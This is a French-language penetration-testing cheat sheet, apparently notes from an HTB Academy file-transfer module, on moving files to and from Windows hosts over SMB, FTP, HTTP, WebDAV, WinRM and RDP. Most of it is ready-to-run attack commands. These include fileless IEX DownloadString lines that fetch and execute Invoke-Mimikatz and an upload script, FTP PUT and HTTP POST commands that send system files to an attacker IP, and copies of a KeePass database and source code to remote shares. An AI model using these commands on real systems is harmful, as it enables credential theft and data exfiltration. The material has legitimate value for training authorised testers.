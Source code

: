 # SMB
#### Créer un partage
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
net share public=C:\public /GRANT:Everyone,FULL
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#### Ajouter un partage
###### UI
1. Clique droit sur PC > Map network drive.
2. serveur: \\\192.168.92.1\TMP
3. cocher “use different credentials”
###### cmd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
net use n: \\192.168.220.129\Finance
net use n: \\192.168.220.129\Finance /user:plaintext Password123
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
###### powershell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem"

$username = 'plaintext';
$password = 'Password123';
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force;
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword;
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

#### Copier en CMD
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
copy .\Documents\database.kdbx \\192.168.122.139\TMP\database.kbdx
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# FTP
#### Powershell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
# Télécharger
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
# Téléverser
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Pour intéragir avec l'application FTP sans console interactive. Créer un fichier et l'exécuter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# HTTP
#### Téléchargement
Si first-launch conf de IE pas fait. Utiliser -UseBasicParsing avec iwr
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
iwr -uri http://192.168.118.3/winPEASx64.exe -Outfile winPEAS.exe

(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

#fileless
 IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Invoke-Mimikatz.ps1')
 (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Invoke-Mimikatz.ps1') | IEX
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

https://gist.github.com/HarmJ0y/bb48307ffa663256e239

#### Téléversement
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

#base64
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Base64
cmd.exe a une limite de 8191 charactères
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
#Encoder
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
#Transformer le base64 en fichier
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1..."))
#vérifier le hash
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Webdav (SMB/HTTP)
DavWWWRoot n'existe pas vraiment, permet seulement au driver de comprendre webdav

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
dir \\192.168.49.128\DavWWWRoot
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# LOLBAS
https://lolbas-project.github.io/#
Utiliser /upload ou /download dans la recherche
# Autres
## Powershell remoting (WINRM)
Doit être admin et être membre de Remote Management Users ou permission explicite

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~powershell
#Créer une sessions vers Database01
$Session = New-PSSession -ComputerName DATABASE01
#copie vers DATABASE01
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
#Copie depuis DATABASE01
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


## RDP
Copier Coller
Exposer un dossier local

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Encryption
https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
Import-Module .\Invoke-AESEncryption.ps1
Invoke-AESEncryption -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
